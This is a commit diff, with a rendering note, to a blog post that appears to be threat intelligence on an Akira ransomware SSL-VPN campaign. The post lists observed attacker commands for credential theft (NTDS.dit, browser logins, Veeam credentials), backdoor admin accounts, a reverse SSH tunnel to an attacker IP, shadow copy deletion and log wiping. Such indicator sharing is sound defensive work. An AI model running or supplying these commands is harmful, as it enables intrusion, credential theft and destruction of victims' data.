

Before and after one commit to garkbt/garkbt.github.io, a Jekyll site: the page built from _posts/2025-10-17-Akira-SSL-VPN-Campaign.md, in a window 1280 px wide and 1400 px high, scrolled down 4358 px. Shown: the whole window at 89% size, without its empty margins (143-1201 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update 2025-10-17-Akira-SSL-VPN-Campaign.md

````diff
--- a/_posts/2025-10-17-Akira-SSL-VPN-Campaign.md
+++ b/_posts/2025-10-17-Akira-SSL-VPN-Campaign.md
@@ -176,9 +176,9 @@
 
 **Credential Access**
 - veeam-creds ps1/exe
- - NTDS.dit , system hive extraction
- - Mimikatz
- - DCSync
+- NTDS.dit , system hive extraction
+- Mimikatz
+- DCSync
 <br>
 
 **Impact**
@@ -187,26 +187,26 @@
 
 # Observations
 **Initial Access**
- - SSl-VPN exploitation
- - Authentications from VPS (Listed ASNs at the bottome)
+- SSl-VPN exploitation
+- Authentications from VPS (Listed ASNs at the bottome)
 <br>
 
 
 **Discovery**
- - Netscan
- - Advanced_IP-Scanner (downloads or documents)
- - Advanced_Port_Scanner
- - `Nltest /trusted_domains`
- - ping
+- Netscan
+- Advanced_IP-Scanner (downloads or documents)
+- Advanced_Port_Scanner
+- `Nltest /trusted_domains`
+- ping
  ```
 Install-WindowsFeature RSAT-AD-PowerShell
 Get-ADComputer -Filter * -Property * | Select-Object Enabled,
 DNSHostName, IPv4Address, OperatingSystem, Description  >
 C:\programdata\[redacted].txt
 ```
- - `cmd.exe /Q /c nltest /domain_trusts 1> \\Windows\\Temp\\ysKBfL 2>&1`
- - `cmd.exe /Q /c quser 1> \\127.0.0.1\ADMIN$\__1754125023.3698354 2>&1`
- - `net group "Domain admins" /dom`
+ - cmd.exe /Q /c nltest /domain_trusts 1> \\Windows\\Temp\\ysKBfL 2>&1
+ - cmd.exe /Q /c quser 1> \\127.0.0.1\ADMIN$\__1754125023.3698354 2>&1
+ - net group "Domain admins" /dom
  - Adsubnets.csv, adGroups.tx, AdOUs.csv, AdCOmputers.txt, adUsers.txt and AdTrusts.txt (in weird path like C:\ or programdata)
  ```
    Get-ADUser -Filter * -Properties * | Select-Object Enabled, CanonicalName,
@@ -232,8 +232,8 @@
 ```
  - Powerview
  - SharpShares
-   - `C:\programdata\SharpShares.exe /ldap:all /filter:netlogon,ipc$,print$
-/threads:1000 /outfile:C:\programdata\tb.txt`
+   - C:\programdata\SharpShares.exe /ldap:all /filter:netlogon,ipc$,print$
+/threads:1000 /outfile:C:\programdata\tb.txt
 
    -NOTEPAD.EXE C:\ProgramData\tb.txt
  - Grixba (https://fieldeffect.com/blog/grixba-play-ransomware-impersonates-sentinelone, https://www.security.com/threat-intelligence/play-ransomware-volume-shadow-copy)
@@ -250,18 +250,18 @@
  - NetExec
  - PsExec
  - Impacket atexec.py
-   - `C:\Windows\System32\cmd.exe /Q /c quser 1> \Windows\Temp\RANDOMIZED_STRING 2>&1 (Example of impacket)`
+   - C:\Windows\System32\cmd.exe /Q /c quser 1> \Windows\Temp\RANDOMIZED_STRING 2>&1 (Example of impacket)
  - MobaXterm
  - WinRm using Ruby client
 <br>
 
  **Exfil and staging**
- - `"C:\Program Files\WinRAR\WinRAR.exe" a -ep1  -scul -r0 -iext -imon1 -- . X:\[Redacted]`
- - `c:\ProgramData\winrar.exe`
- - `C:\ProgramData\winrar-x64-712.exe`
- - `winrar.exe a -m0 -v3g -tn365d -n*.txt -n*.pdf -n*.xls -n*.doc -n*.xlsx -n*.docx -n*.BAK -n*.MDB  "C:\Data" "\\"<redacted>"`
- - `C:\ProgramData\shares.txt`
- - `"C:\Program Files\FileZilla FTP Client\fzsftp.exe" -v`
+ - "C:\Program Files\WinRAR\WinRAR.exe" a -ep1  -scul -r0 -iext -imon1 -- . X:\[Redacted]
+ - c:\ProgramData\winrar.exe
+ - C:\ProgramData\winrar-x64-712.exe
+ - winrar.exe a -m0 -v3g -tn365d -n*.txt -n*.pdf -n*.xls -n*.doc -n*.xlsx -n*.docx -n*.BAK -n*.MDB  "C:\Data" "\\"<redacted>"
+ - C:\ProgramData\shares.txt
+ - "C:\Program Files\FileZilla FTP Client\fzsftp.exe" -v
  - Rclone
  - 7zip
  - bitwise ssh client
@@ -269,21 +269,20 @@
 <br>
 
 **Persistence**
-- `"C:\Windows\System32\msiexec.exe" /i "C:\ProgramData\OpenSSHa.msi"`
-- `"C:\Windows\system32\net.exe" user lockadmin Msnc?42da /add`
-- `"C:\Windows\system32\reg.exe" add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v commuser /d 0 /f`
-- `net user [REDACTED] VRT83g$%ce /add`
-- `net localgroup Administrators [redacted] /add`
-- `net localgroup "Remote Desktop Users" [redacted] /add`
-- `net  group "Domain Admins" azuresync /add`
-- `cmd.exe /Q /c net user backupSQL Password123$ /add /dom 1> \\Windows\\Temp\\tinhLg 2>&1`
-- `cmd.exe /Q /c net group "Domain Admins" backupSQL  /dom /add 1> \Windows\Temp\NDqyOI 2>&1`
+- "C:\Windows\System32\msiexec.exe" /i "C:\ProgramData\OpenSSHa.msi"
+- "C:\Windows\system32\net.exe" user lockadmin Msnc?42da /add
+- "C:\Windows\system32\reg.exe" add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v commuser /d 0 /f
+- net user [REDACTED] VRT83g$%ce /add
+- net localgroup Administrators [redacted] /add
+- net localgroup "Remote Desktop Users" [redacted] /add
+- net  group "Domain Admins" azuresync /add
+- cmd.exe /Q /c net user backupSQL Password123$ /add /dom 1> \\Windows\\Temp\\tinhLg 2>&1
+- cmd.exe /Q /c net group "Domain Admins" backupSQL  /dom /add 1> \Windows\Temp\NDqyOI 2>&1
 - Cloudflared tunnel  (`C:\programdata\ssh\cloudflared.exe`)
-   - `New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server(sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22`
+   - New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server(sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
 
 cloudflared[.]exe service install REDACTED
-- `C:\ProgramData\cloudflared_msi_install.log.`
-_BASE64_TOKEN
+- C:\ProgramData\cloudflared_msi_install.log._BASE64_TOKEN
 - Chrome remote desktop
 - Anydesk
 
@@ -311,32 +310,31 @@
 - Ligolo-ng tunnel util
 - Cobalt Strike
 - Payloads pulled from temp.sh
-- ssh
-`ssh -R 5555 root@170.130.165[.]42`
-- `netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow`
-- `New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22`
+- ssh -R 5555 root@170.130.165[.]42
+- netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow
+- New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22
 
 <br>
 
 Credential Access:
- - `cmd.exe /Q /c copy \"C:\Users\[redacted]\AppData\Local\Microsoft\Edge\User Data\Default\Login Data" "C:\Windows\Temp\1753954887.8450267"`
- - `"C:\Windows\system32\wbadmin.exe" start backup -backupTarget:\\localhost\c$\ProgramData\ -include:C:\Windows\NTDS\NTDS.dit C:\Windows\System32\config\SYSTEM C:\Windows\System32\config\SECURITY -quiet`
- - `Veam-get-creds.ps1`
+ - cmd.exe /Q /c copy \"C:\Users\[redacted]\AppData\Local\Microsoft\Edge\User Data\Default\Login Data" "C:\Windows\Temp\1753954887.8450267"
+ - "C:\Windows\system32\wbadmin.exe" start backup -backupTarget:\\localhost\c$\ProgramData\ -include:C:\Windows\NTDS\NTDS.dit C:\Windows\System32\config\SYSTEM C:\Windows\System32\config\SECURITY -quiet
+ - Veam-get-creds.ps1
  - https://github.com/byt3n33dl3/NetExec/blob/8dfd17e4500523a154467ae9c85f0a41c1a16813/nxc/data/veeam_dump_module/veeam_dump_postgresql.ps1
- - `VeeamHax.exe`
+ - VeeamHax.exe
  - NTDS.dit , system hive extraction
  - Mimikatz
  - DCSync
  - DCE-RPC requestt to the ICertPassage Service (UnPAC the Hash)
- - veeam credentials via `sqlcmd -S localhost\REDACTED_USERNAME -E -y500 -s ";" -Q
-"SELECT * FROM [VeeamBackup].[dbo].[Credentials];"`
+ - `veeam credentials via` sqlcmd -S localhost\REDACTED_USERNAME -E -y500 -s ";" -Q
+"SELECT * FROM [VeeamBackup].[dbo].[Credentials];"
 
 <br>
 
 Disabling Security software
-- `Users\REDACTED\AppData\Local\Temp\hlpdrv.sys`
-- `Users\REDACTED\AppData\Local\Temp\rwdrv.sys`
-- `"C:\Windows\system32\SystemSettingsAdminFlows.exe" Defender DisableEnhancedNotifications 1`
+- Users\REDACTED\AppData\Local\Temp\hlpdrv.sys
+- Users\REDACTED\AppData\Local\Temp\rwdrv.sys
+- "C:\Windows\system32\SystemSettingsAdminFlows.exe" Defender DisableEnhancedNotifications 1
 
 - Due to privs can disable securyity via control panel
 - Powershell scripts to set-mppreference options set to disable or $true depending
@@ -349,9 +347,9 @@
 icies\\System\" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
 ```
 - BYOVD and ran consent.exe from EDR folders which loaded wmsgapi.dll or msimg32.dll which loaded the driver located in temp to disable edr
-- `C:\Users\REDACTED\AppData\Local\Temp\churchill_driver.sys`
-- `C:\Users\REDACTED\AppData\Local\Temp\rwdrv.sys`
-- `C:\Users\REDACTED\AppData\Local\Temp\hlpdrv.sys`
+- C:\Users\REDACTED\AppData\Local\Temp\churchill_driver.sys
+- C:\Users\REDACTED\AppData\Local\Temp\rwdrv.sys
+- C:\Users\REDACTED\AppData\Local\Temp\hlpdrv.sys
 - HyperV check using a bat script
 - reg query
 
@@ -368,41 +366,41 @@
 
 
 Impact
-- `"C:\WINDOWS\system32\vssadmin.exe" delete shadows /all /quiet`
-- `powershell.exe -Command Get-WmiObject Win32_Shadowcopy | Remove-
-WmiObject`
-- `w.exe  -p=\\[redacted]\C$ -n=1`
-- `w.exe  -n=3 -p=X:\ -dellog`
-- `akira.exe`
-- `lck.exe`
-- `lock.exe`
-- `locker.exe`
-- `pr.exe`
-- `n.exe`
-- `s.exe`
-- `aki.exe`
-- `win.exe`
+- "C:\WINDOWS\system32\vssadmin.exe" delete shadows /all /quiet
+- powershell.exe -Command Get-WmiObject Win32_Shadowcopy | Remove-
+WmiObject
+- w.exe  -p=\\[redacted]\C$ -n=1
+- w.exe  -n=3 -p=X:\ -dellog
+- akira.exe
+- lck.exe
+- lock.exe
+- locker.exe
+- pr.exe
+- n.exe
+- s.exe
+- aki.exe
+- win.exe
 - `chmod +x` befor running esxi encryptor
-- `esx -n -p -fork`
-- `winlocker.exe`
-- `hello.exe`
-- `powershell.exe -ep bypass -Command "Get-WinEvent -ListLog * | where { $_.RecordCount } | ForEach-Object -Process{ [System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog($_.LogName) }"`
+- esx -n -p -fork
+- winlocker.exe
+- hello.exe
+- powershell.exe -ep bypass -Command "Get-WinEvent -ListLog * | where { $_.RecordCount } | ForEach-Object -Process{ [System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog($_.LogName) }"
 - target backups, format/wip disks/ factory reset
 - differy scenarios:
    1: Virtual Disk level - vmdks are encrypted and laptops/desktops left unencypted
    2: Full environment encrypted (OS and vmdks)
    3: In-guest encrypion only - encrypts contents of vms rather than the underlying disk files
 - windows locker writes log files like:
- -  `Log-DD-MM-YYYY-HH-MM-SS.txt`.
-- `.akira` appended to files
-- dumps `akira_readme.txt` within each folder
+ -  Log-DD-MM-YYYY-HH-MM-SS.txt
+- .akira `appended to files`
+- `dumps` akira_readme.txt `within each folder`
 
 <br>
 
 Unsure:
-Elf `vmwaretools` (potential esxi ransomware file observed being pulled by TA from Darktrace)
-`C:\ProgramData\1.bat` (potential defender disabling mentioned in Zensec Blog)
-`C:\ProgramData\2.bat` (Potential AD powershell discovery mentioned in Zensec blog)
+- Elf `vmwaretools` (potential esxi ransomware file observed being pulled by TA from Darktrace)
+- `C:\ProgramData\1.bat` (potential defender disabling mentioned in Zensec Blog)
+- `C:\ProgramData\2.bat` (Potential AD powershell discovery mentioned in Zensec blog)
 
 <br>
 
````
